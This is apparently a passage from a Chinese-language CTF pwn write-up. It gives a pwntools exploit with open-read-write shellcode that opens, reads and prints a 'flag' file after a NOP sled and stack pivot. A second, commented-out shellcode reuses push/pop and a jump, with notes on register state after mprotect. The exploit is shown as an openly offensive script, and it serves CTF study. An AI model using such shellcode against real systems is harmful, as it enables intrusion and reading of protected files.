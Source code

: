 ```bash

sa('shellcode\n\n',shell1)

orw_shellcode = asm('''
    push 0x67616c66
    mov rdi,rsp
    xor esi,esi
    push 2
    pop rax
    syscall
    mov rdi,rax
    mov rsi,rsp
    mov edx,0x30
    xor eax,eax
    syscall
    mov edi,1
    mov rsi,rsp
    push 1
    pop rax
    syscall
    ''')

pl=b'\x90'*0x60+asm("shl rsp,0xc;add rsp,0x500;")+orw_shellcode
sl(pl)

itr()
```

### 思路 2

还有一个这种方法，反复利用 push pop，巧妙加个 jmp

```bash
#shellcode = asm('''
#    mov esp,0x404100
#    shl edi,12
#    push 0xa
#    push 7
#    x:
#    pop edx
#    pop eax
#    syscall
#    pop edi
#    push esi
#    mov esi,ecx
#    jmp x
#    ''')
```

这里构造思路就是先写到 syscall，然后再写一个 syscall 发现字节太多，所以写个跳转  
其中关键的一步就是执行完 mprotect 后，rcx 会与 rip 值相等，这才有了后面的 mov esi,ecx
